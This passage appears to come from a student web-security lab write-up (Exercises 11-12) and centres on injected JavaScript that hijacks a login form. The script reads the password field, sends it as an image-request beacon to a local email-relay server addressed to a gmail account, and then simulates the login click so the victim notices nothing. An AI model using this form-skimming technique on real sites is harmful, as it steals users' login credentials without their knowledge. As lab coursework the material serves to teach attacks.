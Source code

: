 ```javascript=

      
    }
```

- In the method above, we made sure to encode the password so that it will pass as a valid HTTP request to the flask server implementing the email service
- We also added a `setTimeout` function that runs after `2s`. This function will allow the form to be submitted properly once an email has been sent to us. 


**Result**
![](https://i.imgur.com/8NGXSRe.png)
![](https://i.imgur.com/q4juc8b.png)


### Exercise 12
One of the problems in exercise 11 is that there are 2 different submit options available in the form. Hence, we noted below that a critical parameter in the from becomes missing, as a result of utilising `formContext.submit()`

**Normal login**: 
![](https://i.imgur.com/Bie3g3O.png)
**Exercise 11 login**: 
![](https://i.imgur.com/QGUbTaN.png)

Thus, to fix this, we had to ensure that the parameter `submit_login: Log in`. While we initially explored the idea of modifying the form content, we realised that it was far easier to trigger a phantom click on the form. Below shows the code

```javascript=
function maliciousSubmit(event) {
        event.preventDefault()

        function execEmail() {
            (new Image()).src='http://127.0.0.1:8000?' + 'to=redfreak97@gmail.com' + '&payload=' + encodeURIComponent(document.getElementsByName('login_password')[0].value)+ '&random=' + Math.random()
    
          }
          execEmail()
        setTimeout(function (){
          // just do a click to set the value - easiest solution
           var formContext = document.getElementsByName("loginform")[0]
           // remove the feedback loop onsubmit - fallback to original submit
           formContext.removeAttribute('onsubmit')
           // manually click the login button
           document.getElementsByName("submit_login")[0].click()
        }, 3000)
  
    
      }

```
It is important to note that we removed the `onsubmit` attribute immediately when the email is sent out. This is so as unlike previously, we are actually re-triggering the `onsubmit` method again when we simulate the click on the `Submit Login` button. Had we excluded this, we would end up with a never ending loop.
